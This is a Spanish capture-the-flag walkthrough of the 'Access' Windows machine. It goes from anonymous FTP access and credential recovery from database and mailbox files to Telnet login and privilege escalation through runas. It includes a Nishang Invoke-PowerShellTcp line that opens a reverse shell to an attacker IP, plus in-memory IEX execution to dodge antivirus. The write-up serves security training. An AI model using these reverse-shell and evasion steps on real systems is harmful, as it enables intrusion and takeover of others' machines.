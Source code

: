 ![](../img/Access/0.png)

#Windows #AD #nishang #Runas
____

El acceso es un &amp;quot;fácil&amp;quot; dificultad de la máquina, que pone de relieve cómo las máquinas asociadas con la seguridad física de un entorno puede no ser en sí mismo seguro. También se destaca cómo FTP / archivos compartidos accesibles a menudo puede conducir a conseguir un punto de apoyo o movimiento lateral. Enseña técnicas para identificar y explotar las credenciales guardadas.
____

Iniciando la fase de reconocimiento, se realizó un escaneo con **RustScan** para identificar los puertos abiertos en el equipo, obteniendo los siguientes resultados:

![](../img/Access/1.png)
<span class="center-text">Escaneo con RUSTSCAN</span>

Una vez obtenidos los resultados, se identificó que los puertos **21 (FTP), 23 (Telnet) y 80 (HTTP)** están abiertos. A partir de esta información, se procede con la enumeración del **puerto 21 (FTP)** para analizar posibles accesos, credenciales y configuraciones del servicio.

![](../img/Access/2.png)
<span class="center-text">Acceso a ftp anonimamente</span>

Se observa que el servidor FTP permite acceso anónimo, lo que nos brinda la posibilidad de listar su contenido. Al acceder, identificamos la presencia de **dos directorios**, por lo que procedemos a enumerar su contenido. Como resultado, se obtienen los siguientes archivos:

![](../img/Access/3.png)
<span class="center-text">Archivos encontrados</span>

Se identificaron **dos archivos** en el servidor FTP. Basándonos en sus extensiones:

- **`backup.mdb`**: La extensión **`.mdb`** indica que podría tratarse de una base de datos de **Microsoft Access**. Este tipo de archivos suele utilizarse para almacenar información estructurada y puede contener credenciales, registros o datos sensibles.
- **`archivo.zip`**: Un archivo comprimido que podría contener información relevante, por lo que es necesario analizar su contenido.

Procedemos a descargar ambos archivos para su análisis. Sin embargo, al intentar descargar **`backup.mdb`**, se presenta un **conflicto**. Esto puede deberse a **permisos restringidos**, **corrupción del archivo** o **configuración del servidor FTP** que impide su descarga directa.

![](../img/Access/4.png)
<span class="center-text">Error de descarga</span>

Investigando un poco más sobre el funcionamiento de **FTP**, notamos que para descargar archivos que no son de texto (como bases de datos, imágenes o archivos comprimidos), es necesario activar el **modo binario**.

Al cambiar al **modo binario** antes de la descarga, logramos obtener el archivo **backup.mdb** exitosamente. Esto garantiza que el archivo se transfiera sin corrupción y pueda ser analizado correctamente.

Ahora, procederemos a examinar el contenido de ambos archivos en busca de información relevante.

![](../img/Access/5.png)
<span class="center-text">Cambiando a binary y obtencion de archivo</span>

Al contar con ambos archivos, decidimos analizar primero el contenido del **archivo ZIP**, pero notamos que **está protegido con contraseña**, lo que impide su extracción inmediata. Dado que aún no contamos con la clave, dejamos esta parte pendiente para un posible ataque de fuerza bruta o revisión de pistas en otros archivos.

Pasamos entonces a investigar cómo abrir el archivo **`.mdb`** y encontramos un **visualizador en línea**, [mdoopener](https://www.mdbopener.com/) que nos permitirá explorar su contenido sin necesidad de herramientas locales. Procedemos a cargar el archivo en la herramienta para analizar si contiene información relevante, como credenciales, registros de acceso o configuraciones útiles.

![](../img/Access/6.png)
<span class="center-text">Intento de descompresión de archivo zip</span>

![](../img/Access/7.png)
<span class="center-text">Visualizador en linea de archivos mdb</span>

Al abrir y analizar el contenido del archivo **`.mdb`**, encontramos una tabla llamada **`auth_user`**, que almacena **usuarios y contraseñas**.

Inicialmente, intentamos utilizar estas credenciales para acceder a **Telnet**, pero **no tuvimos éxito**. Sin embargo, decidimos probar la contraseña extraída con el archivo **ZIP protegido**, y logramos **descomprimirlo exitosamente**.

Ahora procederemos a analizar el contenido del archivo extraído en busca de información relevante que pueda ayudarnos a obtener acceso al sistema o descubrir más pistas sobre su seguridad.

![](../img/Access/8.png)
<span class="center-text">Credenciales contradas</span>

![](../img/Access/9.png)
<span class="center-text">Extracción de datos</span>

Al analizar el archivo extraído, observamos que tiene la extensión **`.pst`**, lo que indica que se trata de un **archivo de almacenamiento de correos electrónicos de Microsoft Outlook**. Estos archivos suelen contener correos, contactos y otros datos de la cuenta de un usuario.

Dado que queremos examinar su contenido de manera más accesible, investigamos si existe un método para **convertir un archivo `.pst` a `.pdf`**

![](../img/Access/10.png)
<span class="center-text">Conversion de pst a pdf</span>

Después de convertir el archivo **`.pst`** a **PDF**, lo analizamos y encontramos **un usuario y una contraseña** dentro de los correos almacenados.

Con esta nueva información, intentamos nuevamente autenticarnos en **Telnet**, y esta vez logramos acceder exitosamente al sistema. Como resultado de esta intrusión, **encontramos la primera flag**.

![](../img/Access/11.png)
<span class="center-text">Credenciales encontradas</span>

![](../img/Access/12.png)
<span class="center-text">Acceso al sistema</span>

![](../img/Access/13.png)
<span class="center-text">Flag user</span>

### Privilege Escaltaion

Durante nuestra enumeración del sistema, identificamos un **archivo interesante** en el directorio **`Public/Desktop`**. Al analizarlo, notamos que se trata de un **acceso directo (`.lnk`)** que ejecuta comandos mediante `runas`, lo que indica que podría utilizarse para ejecutar procesos con **privilegios de administrador**.

![](../img/Access/14.png)
<span class="center-text">Identificación de un acceso directo que corre como administrador</span>

Dado que `runas` permite ejecutar programas con otro usuario, exploramos formas de **escalar privilegios** mediante este mecanismo. Se nos ocurre utilizar **Nishang**, un conjunto de scripts en PowerShell para post-explotación, y aprovecharlo para **cargar una reverse shell en memoria**, evitando tocar el disco y evadiendo detecciones básicas.

Clonar repositorio de nishang

```bash
git clone https://github.com/samratashok/nishang.git
```

Después de clonar el repositorio de **Nishang**, tomamos el archivo **`Invoke-PowerShellTcp.ps1`** y lo modificamos agregando la siguiente línea al final:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444
```

Una vez realizado el proceso anterior, utilizamos **IEX (Invoke-Expression)** para descargar y ejecutar el payload en memoria, evitando escribirlo en disco y reduciendo la posibilidad de detección por antivirus o herramientas de monitoreo.

Siguiendo estos pasos, procedemos a descargarlo y obtendremos la revshell

![](../img/Access/15.png)
<span class="center-text">Ejecución como administrador de nuestra revshell</span>

![](../img/Access/16.png)<span class="center-text">Acceso como root</span>

Después de ejecutar el exploit con **IEX** y obtener la reverse shell con **privilegios de administrador**, ahora podemos **buscar y capturar la flag de root**.

![](../img/Access/17.png)
<span class="center-text">Flag root</span>
